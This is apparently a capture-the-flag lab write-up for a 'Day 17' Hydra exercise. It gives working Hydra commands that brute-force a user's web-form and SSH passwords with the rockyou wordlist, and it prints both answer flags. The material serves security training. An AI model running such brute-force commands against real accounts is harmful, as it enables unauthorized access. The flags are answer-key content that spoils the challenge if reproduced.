 # [Day 17] Hydra-ha-ha-haa

## Description
You suspect Elf Molly is communicating with the Christmas Monster. Compromise her accounts by brute forcing them!

Use Hydra to brute force Elf Molly's password. Use the rockyou.txt password list, which can be found here.

Supporting materials can be found here.

This machine will take between 3-4 minutes to boot.

----

## Answer the questions below

### Use Hydra to bruteforce molly's web password. What is flag 1? (The flag is mistyped, its THM, not TMH)

hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.202.29 http-post-form "/login:username=molly&password=^PASS^:incorrect"

Answer: `THM{2673a7dd116de68e85c48ec0b1f2612e}`

### Use Hydra to bruteforce molly's SSH password. What is flag 2?
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.202.29 -t 10 ssh -V -I

Answer: `THM{c8eeb0468febbadea859baeb33b2541b}`
